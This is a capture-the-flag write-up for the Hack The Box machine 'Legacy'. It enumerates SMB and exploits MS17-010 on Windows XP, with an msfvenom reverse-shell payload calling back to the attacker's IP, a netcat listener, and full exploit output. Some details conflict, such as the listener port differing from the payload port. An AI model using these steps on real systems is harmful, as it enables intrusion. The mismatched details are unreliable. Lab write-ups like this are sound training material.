

# Legacy


## Information Gathering

### Nmap

```console
root@apollo:~/htb/legacy# nmap -sV -sC -vv 10.10.10.4 -oA legacy

Nmap scan report for 10.10.10.4
Host is up, received echo-reply ttl 127 (0.036s latency).
Scanned at 2019-07-27 13:24:39 EDT for 262s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h22m54s, deviation: 2h07m16s, median: -5h52m54s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b2:33:0d (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b2 33 0d 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 15844/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 20767/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-07-27T17:31:56+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 13:29
Completed NSE at 13:29, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 13:29
Completed NSE at 13:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 262.23 seconds
           Raw packets sent: 2003 (88.108KB) | Rcvd: 6 (236B)
```

So this machine has **139**, **445**, **3389** open. **3389** is the Remote Desktop Protocol (RDP), that could be interesting. But lets enumerate further before we decide which path to ultimately go down.

### User (and root) Flag  

```console
root@apollo:~/htb/legacy# ls /usr/share/nmap/scripts |grep smb |grep vuln
smb2-vuln-uptime.nse
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
```

There are a good amount of smb vulnerabilities that we can try with nmap out of the box:

```console
root@apollo:~/htb/legacy# nmap --script smb-vuln* -p 445 10.10.10.4 -oA smb_vulns
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-27 13:35 EDT
Nmap scan report for 10.10.10.4
Host is up (0.036s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 10.48 seconds
```

Cool, so there are 2 of the group that this machine is vulnerable to and one that it is *likely* vulnerable to. I want to look at the vulnerabilities before moving forward to see what is more interesting or most likely to lead to a takeover.

Enter [CVE-2017-0144](https://www.exploit-db.com/exploits/42315). This is from the NSA toolset that the Shadow Brokers released. This is going to be my first choice, mostly because its really interesting but also because I think it should lead to an easy RCE.

So first, I want to start my listener:

```console
root@apollo:~/htb/legacy# nc -lvnp 42069
listening on [any] 42069 ...
```

since we are doing this sans metasploit we need to create our shellcode. I am going to use an **unstaged** (all the shellcode is contained in the code being passed) **reverse shell** (the remote machine calls back to my attacking machine). We will want to create it as an **.exe** for the **x86 Windows platform**, which is the type of target we are attacking.

```console
root@apollo:~/htb/legacy# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.75 LPORT=44 EXITFUNC=thread -f exe -a x86 --platform windows -o legacy_shell.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: legacy_shell.exe
```
and now we ship off the exploit:

```console
root@apollo:~/htb/legacy# python ms17010.py 10.10.10.4 legacy_shell.exe
Traceback (most recent call last):
  File "ms17010.py", line 3, in <module>
    from mysmb import MYSMB
ImportError: No module named mysmb
```

Whoops, it does say that I need `mysmb.py` in like line two of the exploit. My bad - let's try again:

```console
root@apollo:~/htb/legacy# python ms17010.py 10.10.10.4 legacy_shell.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82246bb8
SESSION: 0xe10f9408
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1b1df10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b1dfb0
overwriting token UserAndGroups
Sending file N0KFUJ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service TMkY.....
Starting service TMkY.....
The NETBIOS connection with the remote host timed out.
Removing service TMkY.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

look over at listener and we've got a shell:

```console
root@apollo:~/htb/legacy# nc -lvnp 42069
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::42069
Ncat: Listening on 0.0.0.0:42069
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1028.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

...

C:\Doucments and Settings\Administrator\Desktop\root.txt
99344********************5d5713

C:\Doucments and Settings\john\Desktop\user.txt
e69af********************7644f
```

# Conclusion
This was a very fun box - albeit very easy. It was fun doing it without metasploit and employing some of the techniques I learned from PWK\OSCP. 
